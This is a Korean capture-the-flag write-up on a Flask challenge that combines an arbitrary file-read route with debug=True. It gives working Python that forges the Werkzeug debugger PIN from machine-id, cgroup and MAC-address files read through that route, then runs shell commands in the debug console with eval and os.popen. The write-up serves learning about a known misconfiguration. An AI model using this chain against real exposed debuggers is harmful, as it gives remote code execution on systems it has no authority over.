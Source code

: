 ## 코드

```python
@app.route('/<path:file>')
def file(file):
	return open(file).read()

app.run(host='0.0.0.0', port=8000, threaded=True, debug=True)
```

## 풀이

예로부터 장고, 플라스크 개발하고 배포할 때 debug=True 무조건 False로 바꾸라고 했던 선조들의 말이 생각나는 문제..
그냥 막연히 정보가 노출되니 그런 줄 알았는데 구체적으로 이렇게 위험한지 몰랐다.

일단 코드를 보면 매우 간단하고, 유일한 기능은 path를 입력하면 해당 path의 파일을 열어볼 수 있는 것.
이를 통해 flag 파일을 열어볼 수 있지 않을까 싶지만 그렇게 허술할리 없지 flag는 실행파일이었다..

아무튼 이 상태에서 무슨 취약점이 있을까 했는데 바로 debug=True 때문에 발생하는 취약점이었다!
나는 그런 기능이 있는 줄 몰랐는데, debug=True를 해놓고 앱을 실행하면 debug-pin = 000-000-000 이런 식의 코드가 실행한 터미널에 출력된다. 이게 에러가 나타나는 웹페이지에서 코드를 선택하여 터미널을 연결하기 위한 보안키인 것이다..(werkzeug 모듈에서 나타나는 취약점이다.)

[https://www.daehee.com/werkzeug-console-pin-exploit/](https://www.daehee.com/werkzeug-console-pin-exploit/)

여기까지만 해도 몰랐던 기능이라 놀라운데, 심지어 이 pin code를 직접 구할 수도 있었다! 이를 구하는 코드가 

```
/usr/local/lib/python3.8/site-packages/werkzeug/debug/__init__.py
```

여기에 있었다. 알아보니 파이썬 버전마다 코드의 위치나 구현 방법이 다르다고 한다. 퍼즐이 끼워맞춰지는 것처럼 제시된 도커 파일에 파이썬 버전이 명시되어 있었고, 이를 통해 해당 경로를 통해 `__init__.py` 를 열어보면 아래와 같은 코드를 구할 수 있다.

```python
import hashlib
from itertools import chain

def generate_machine_code():
    linux = b""

    # machine-id is stable across boots, boot_id is not.
    for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
        try:
            with open(filename, "rb") as f:
                value = f.readline().strip()
        except IOError:
            continue

        if value:
            linux += value
            break

    # Containers share the same machine id, add some cgroup
    # information. This is used outside containers too but should be
    # relatively stable across boots.
    try:
        with open("/proc/self/cgroup", "rb") as f:
            linux += f.readline().strip().rpartition(b"/")[2]
    except IOError:
        pass

    if linux:
        return linux

def generate_pin_code():
    probably_public_bits = [
        'dreamhack', # username
        'flask.app',# modname 고정
        'Flask',    # getattr(app, '__name__', getattr(app.__class__, '__name__')) 고정
        '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
                                                            # python 버전 마다 위치 다름
    ]
    
    private_bits = [
        '187999308497153',  # MAC주소를 int형으로 변환한 값,  'aa:fc:00:00:16:01'
        b'c31eea55a29431535ff01de94bdcf5cflibpod-02f80dffdf6b5c197362e55ac6eae56e0b4c7c578407eb740c1ea5bbc6325bdb'   # get_machine_id()
    ]
    
    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')
    # h.update(b'shittysalt')
    
    cookie_name = '__wzd' + h.hexdigest()[:20]
    
    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]
    
    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
    
    print(rv)
```

이 코드를 실행시키기 위해 알아내야 하는 값들은 다음과 같다.

```python
probably_public_bits = [
    'dreamhack', # username
    'flask.app',# modname 고정
    'Flask',    # getattr(app, '__name__', getattr(app.__class__, '__name__')) 고정
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
                                                        # python 버전 마다 위치 다름
]

private_bits = [
    '187999308497153',  # MAC주소를 int형으로 변환한 값,  'aa:fc:00:00:16:01'
    b'c31eea55a29431535ff01de94bdcf5cflibpod-02f80dffdf6b5c197362e55ac6eae56e0b4c7c578407eb740c1ea5bbc6325bdb'   # get_machine_id()
]
```

username의 경우 마찬가지로 도커 파일에 있다. 나머지 값 3개는 고정이고, private_bits에서 필요한 값은 MAC 주소와 machine_id이다.

MAC 주소는 (이것도 몰랐지만) /sys/class/net/eth0/address 에서 구할 수 있다.
machine_id는 친절히 구할 수 있는 방법을 제시해주는데, 이것이 generate_machine_id() 함수이다. /etc/machine-id 파일과 /proc/self/cgroup 파일의 값을 합하면 된다. machine_id를 구하는 코드가 어렵지 않고 단순해서 다행이었다.

이를 통해 구한 값을 generate_pin_code() 에 설정하고 실행시키면 9자리 pin-code가 구해진다. 이를 문제 페이지의 pin-code 입력창에 넣으면 파이썬 인터프리터 쉘이 나타난다. 이때 파이썬 쉘이기 때문에 os.system()으로는 실행결과를 얻을 수 없으므로 eval("os.popen('ls').read()") 와 같은 방식으로 명령어를 실행시켜서 flag 파일의 위치와 실행 결과를 얻을 수 있다.